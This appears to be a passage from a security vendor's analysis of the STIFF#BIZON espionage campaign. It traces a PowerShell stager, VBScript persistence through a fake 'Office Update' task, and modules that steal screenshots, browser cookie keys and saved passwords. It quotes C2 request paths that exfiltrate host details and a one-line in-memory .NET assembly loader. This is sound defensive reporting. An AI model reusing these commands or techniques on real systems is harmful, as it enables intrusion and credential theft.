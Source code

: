 Figure 3
The Base64 payload is executed as another PowerShell stager which initiates C2 communication and downloads and runs both “weapons.doc” and “wp.vbs” files.

Figure 4
The final doc is then opened on the victim’s computer as seen in the figure below. The second file that was downloaded from the script, wp.vbs silently runs in the background and sets stage 2 in motion with further code execution.

Figure 5
The lure document was allegedly created by Ольга Божьева (Olga Bozheva) on Jun 16, 2022. The name and other metadata can be seen in figure 5. The alleged author is known to be a war correspondent in Russia (see figure 6.1)

Figure 6

Figure 6.1
STIFF#BIZON: Stage 2 loading the RAT
The wp.vbs file which was downloaded and executed in the previous section does a couple of interesting things. As seen in figure 7 below, the malicious VBscript file creates a new scheduled task called “Office Update”,  . The scheduled task executes a PowerShell script encoded in Base64.

Figure 7
At this point C2 communications are once again established which provides the attacker access to the system.
STIFF#BIZON: C2 communication
Once the attackers had access to the system, we observed the following activity and URL structures which give us more information.
Download lure document: weapons.doc:
/view.php?name=”+[Environment]::MachineName+”&tp=”+[Environment]::OSVersion
Download wp.vbs:
/info.php?name=”+[Environment]::MachineName+”&tp=”+[Environment]::OSVersion
Request .NET assembly from C2 server that will be loaded into memory
/dn.php?name=’+[System.Environment]::MachineName+’&prefix=qq&tp=’+[System.Environment]::OSVersion
example: [System.Reflection.Assembly]::Load($buf);$ep=$bin.EntryPoint;$ep.ToString();$ep.Invoke($null,$null);
STIFF#BIZON: Capabilities
To help us understand the motivations behind the APT group and loaded malware we analyzed the following capabilities that were loaded into the victim machine.
We observed following modules that were served by threat actor:
Capture.net.exe which was used to create a screenshot using Win32 GDI API and upload the gzipped results to the C2 server. This can be seen in figures 8 and 9 below.

Figure 8

Figure 9
The next module that was loaded is chkey.net.exe which was used to extract a state key which is stored in the Local State file. This state key is encrypted using DPAPI. With a state key, a threat actor (TA) can decrypt the cookie database offline and use this to import cookies into a machine controlled by the TA and access any available services without MFA authentication.

Figure 10

Figure 11

Figure 12
The next loaded module is pull.net.exe which we observed extracting saved logins, passwords, and URLs in the victim’s browser “Login Data” file.


[1]: APT28: AT THE CENTER OF THE STORM, January, 2017 https://www.mandiant.com/sites/default/files/2021-09/APT28-Center-of-Storm-2017.pdf
[2]: CrowdStrike’s work with the Democratic National Committee: Setting the record straight, June 5, 2020  https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/
[3]: New variant of Konni malware used in campaign targeting Russia, August 23, 2021 https://blog.malwarebytes.com/threat-intelligence/2021/08/new-variant-of-konni-malware-used-in-campaign-targetting-russia/
[4]: Vault 7: CIA Hacking Tools Revealed, March 7, 2017 https://wikileaks.org/ciav7p1/
[5]: PowerShell-Suite/UAC-TokenMagic.ps1, July 15, 2017 https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1
[6]: Indicators of Compromise for Malware used by APT28, October 4, 2018 https://www.thecssc.com/wp-content/uploads/2018/10/4OctoberIOC-APT28-malware-advisory.pdf
[7]: A deeper look at hacking groups and malware targeting Ukraine, April 27, 2022 https://therecord.media/a-deeper-look-at-hacking-groups-and-malware-targeting-ukraine/
[13]: North Korea recognizes “DPR” and “LPR”, July 13, 2022 https://ukrainetoday.org/2022/07/13/north-korea-recognizes-dpr/
